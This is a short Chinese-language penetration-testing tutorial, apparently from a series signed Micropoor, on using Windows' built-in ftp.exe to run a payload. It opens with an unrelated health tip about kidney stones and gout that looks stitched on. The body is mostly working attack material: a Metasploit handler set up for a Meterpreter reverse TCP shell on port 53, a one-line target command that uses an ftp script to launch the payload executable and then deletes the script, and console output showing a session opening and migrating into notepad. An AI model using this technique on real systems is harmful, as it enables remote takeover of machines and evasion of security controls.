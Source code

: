 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Ftp.exe简介：

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

**说明：**Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

Windows 2003 默认位置：
```bash
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

Windows 7 默认位置：
```bash
C:\Windows\System32\ftp.exe
C:\Windows\SysWOW64\ftp.exe
```

**攻击机：** 192.168.1.4 Debian  
**靶机：** 192.168.1.3 Windows 7

### 配置攻击机msf：

**注：**需设置参数 
`set AutoRunScript migrate -f`  

```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp):

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > set AutoRunScript migrate ‐f

AutoRunScript => migrate ‐f

msf exploit(multi/handler) > exploit 
```
![](/img/ba49d6ee6a8ab9586614befb0cf9c5b5.jpg)

### 靶机执行：

```bash
echo !C:\Users\John\Desktop\rev_x86_53_exe.exe > o &echo quit >> o &ftp ‐n ‐s:o &del /F /Q o
```

```bash
msf exploit(multi/handler) > set AutoRunScript migrate ‐f
AutoRunScript => migrate ‐f
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.3
[*] Meterpreter session 10 opened (192.168.1.4:53 ‐> 192.168.1.3:5530)
at 2019‐01‐21 05:14:57 ‐0500
[*] Session ID 10 (192.168.1.4:53 ‐> 192.168.1.3:5530) processing AutoRunScript 'migrate ‐f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: rev_x86_53_exe.exe (8832)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 8788 
```

![](/img/949fe91f87123f2b6767a38e2dddc7db.jpg)

>   Micropoor
